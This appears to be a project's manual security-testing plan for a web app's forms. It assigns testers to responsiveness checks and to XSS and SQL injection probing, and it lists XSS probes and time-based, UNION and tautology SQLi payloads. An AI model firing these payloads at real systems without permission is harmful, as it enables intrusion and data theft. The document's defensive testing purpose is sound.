 ## Intro

There will be two actors involved in two rounds of testing: SimpleUser and ComplexUser, and all testing will be done manually. In general, the tasks will be divided as follows: SimpleUser will be responsible for testing all page size-responsively and all forms with various normal data that will be predetermined by some rule, and ComplexUser will be responsible for testing all forms with various data/Payload XSS and SQLinjection and closely observing the response detail. The testing can be continuously, during the development process until the final phase on April 5-10, 2023. There are some rules to directive the testing process and how to record the testing results, so the testing will be `inflexible`.

The testing with SimpleUser, which attempts to test all forms with various normal data, tends to be more suitable for `black box testing`, where testing is done from the user's point of view or the use of the application without paying attention to internal implementation details. Meanwhile, the testing with ComplexUser, which attempts to test with data/Payload XSS and closely observe the response, tends to be more suitable for `grey box testing`, where testing is done with some knowledge of the design and structure of the application.

## Guideline for SimpleUser

1. Login with Google (Google Auth)

2. Explore the entire page

3. Test the responsiveness of the entire page

4. Test all forms repeatedly

5. Test all forms in various conditions.

## Guideline for ComplexUser

1. Manual Registration and Login

2. Manually test the register form repeatedly for SQLi and XSS vulnerabilities

3. Manually test the login form for SQLi and XSS vulnerabilities

4. Repeatedly test all forms in the CMS

5. Test all forms in various conditions.

## General Rules

1. ComplexUser and SimpleUser are not allowed to exchange information regarding the testing process and results.

2. ComplexUser and SimpleUser are not allowed to be in close proximity to each other while one or both are conducting testing.

3. Testing is conducted manually without the use of automated scripts.

4. If an error occurs during the testing process, testing must continue until it cannot be continued.

5. ComplexUser and SimpleUser must understand the format or guidelines for recording testing results and processes.

## Payload XSS

```
"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
<image/src/onerror=prompt(8)>
<img/src/onerror=prompt(8)>
<image src/onerror=prompt(8)>
<img src/onerror=prompt(8)>
<image src =q onerror=prompt(8)>
<img src =q onerror=prompt(8)>
</scrip</script>t><img src =q onerror=prompt(8)>
<script\x20type="text/javascript">javascript:alert(1);</script>
<script\x3Etype="text/javascript">javascript:alert(1);</script>
<script\x0Dtype="text/javascript">javascript:alert(1);</script>
<script\x09type="text/javascript">javascript:alert(1);</script>
<script\x0Ctype="text/javascript">javascript:alert(1);</script>
<script\x2Ftype="text/javascript">javascript:alert(1);</script>
<script\x0Atype="text/javascript">javascript:alert(1);</script>
'`"><\x3Cscript>javascript:alert(1)</script>
'`"><\x00script>javascript:alert(1)</script>
```

## SQLinjection Payload

```
OR 1=1
OR 1=0
OR x=x
OR x=y
OR 1=1#

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --

-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --

sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
```

## More Payload at : [PayloadBox Github](https://github.com/payloadbox)

## Example Report Table

| No  | Date   | URI/ Pages        | Input                       | Output          | Exp.                                    |
| --- | ------ | ----------------- | --------------------------- | --------------- | --------------------------------------- |
| 1   | 05 Feb | Add Contacts Form | "));waitfor delay '0:0:5'-- | SQL Error . . . | Lorem ipsum dolor sit amet consectetur. |
| 2   | 05 Feb | Add Contacts Form | "));waitfor delay '0:0:5'-- | SQL Error . . . | Lorem ipsum dolor sit amet consectetur. |
| 3   | 05 Feb | Add Contacts Form | "));waitfor delay '0:0:5'-- | SQL Error . . . | Lorem ipsum dolor sit amet consectetur. |
